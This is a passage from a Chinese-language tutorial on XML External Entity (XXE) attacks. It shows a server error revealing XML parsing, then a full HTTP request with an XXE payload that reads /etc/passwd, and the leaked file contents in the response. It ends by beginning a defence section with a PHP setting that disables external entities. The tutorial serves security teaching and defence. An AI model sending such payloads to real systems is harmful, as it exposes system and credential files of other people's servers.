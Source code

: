    ```json
   HTTP/1.1 500 Internal Server Error
   Content-Type: application/json
   Content-Length: 127
   
   {"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
   ```

   可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击



#### 最终的请求和响应：

   **HTTP Request:**

   ```json
   POST /netspi HTTP/1.1
   Host: someserver.netspi.com
   Accept: application/json
   Content-Type: application/xml
   Content-Length: 288
   
   <?xml version="1.0" encoding="UTF-8" ?>
   <!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <root>
   <search>name</search>
   <value>&xxe;</value>
   </root>
   ```

   **HTTP Response:**

   ```json
   HTTP/1.1 200 OK
   Content-Type: application/json
   Content-Length: 2467
   
   {"error": "no results for name root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/bin/sh
   bin:x:2:2:bin:/bin:/bin/sh
   sys:x:3:3:sys:/dev:/bin/sh
   sync:x:4:65534:sync:/bin:/bin/sync....
   ```



   ## 六、XXE 如何防御

   ### **方案一：使用语言中推荐的禁用外部实体的方法**

   **PHP：**

   ```
   libxml_disable_entity_loader(true);
   ```
